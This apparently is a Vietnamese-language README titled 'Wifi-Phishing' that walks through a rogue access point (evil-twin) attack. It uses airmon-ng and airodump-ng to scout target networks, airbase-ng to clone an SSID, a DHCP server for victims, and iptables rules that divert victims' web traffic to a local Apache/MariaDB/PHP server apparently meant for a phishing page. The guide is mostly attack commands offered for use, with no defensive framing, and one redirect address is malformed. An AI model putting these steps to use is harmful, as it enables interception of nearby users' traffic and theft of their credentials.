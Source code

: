 # Wifi-Phishing
I. Cài đặt và cấu hình isc-dhcp-server 

1. Khởi động terminal và gõ lệnh sau.
  apt-get update
  apt-get install isc-dhcp-server –y
2. Cấu hình isc-dhcp-server bằng cách chỉnh sửa /etc/dhcp/dhcpd.conf.
  authoritative;
  default-lease-time 600;
  max-lease-time 7200;
  subnet 192.168.1.0 netmask 255.255.255.0
  {
    option subnet-mask 255.255.255.0;
    option broadcast-address 192.168.1.255;
    option routers 192.168.1.1;
    option domain-name-servers 8.8.8.8;
    range 192.168.1.10 192.168.1.100;
  }
II. Cấu hình web server
III. Giải quyết vấn đề xung đột giữa Airmon-Ng và Network Manager
  Tại  tập tin /etc/NetworkManager/NetworkManager.conf thêm: 
  [keyfile]
  unmanaged-devices=interface-name:wlan0mon;interfacename:wlan1mon;interface-name:wlan2mon;interface-   name:wlan3mon;interfacename:wlan4mon;interfacename:wlan5mon;interfacename:wlan6mon;interfacename:wlan7mon;interface-name:wlan8mon;interface-    name:wlan9mon;interfacename:wlan10mon;interface-name:wlan11mon;interface-name:wlan12mon
IV. Tạo Wifi Access Point giả
  1. Mở wireless adapter vào chế độ giám sát:
    airmon-ng start wlan0
  2. Dùng lệnh sau để theo dõi thông số các wifi internet trong phạm vi, để lấy thông tin wireless mục tiêu:
    airodump-ng wlan0mon
  3. Tiến hành khởi tạo AP giả:
    airbase-ng -e "<SSID>" -c 1 wlan0mon
  4. Mặc định airbase-ng sẽ tạo một interface at0 để bridge luồng traffic thông qua rogue access point, sử dụng lệnh ifconfig at0 để xem
  5. Tiến hành phân bổ địa chỉ IP và Subnet Mask cho cổng at0 và định tuyến:
    ifconfig at0 192.168.1.1 netmask 255.255.255.0
    route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
  6. Xem thông tin định tuyến để lấy địa chỉ ip:
    ip route
V. Thiết lập Rule cho firewall
  1. Cấu hı̀nh cho phép client khi kết nối access point giả có thể ra mạng internet:
    iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
    iptables --append FORWARD --in-interface at0 -j ACCEPT
    iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168..:80
    iptables -t nat -A POSTROUTING -j MASQUERADE
  2. Kích hoạt forwarding.
    echo 1 > /proc/sys/net/ipv4/ip_forward
VI. Khởi động các dịch vụ
  1. Cấp phát địa chı̉cho client khi kết nối vào access point giả
    dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhclient-eth0.pid at0
  2. Khởi động các dịch vụ
    service isc-dhcp-server start
    service apache2 start
    sudo apt install mariadb-server
    sudo mysql_secure_installation
    sudo apt install php libapache2-mod-php php-mysql
    
    #$db = new PDO("mysql:host=localhost;dbname=$database", $user, $password);
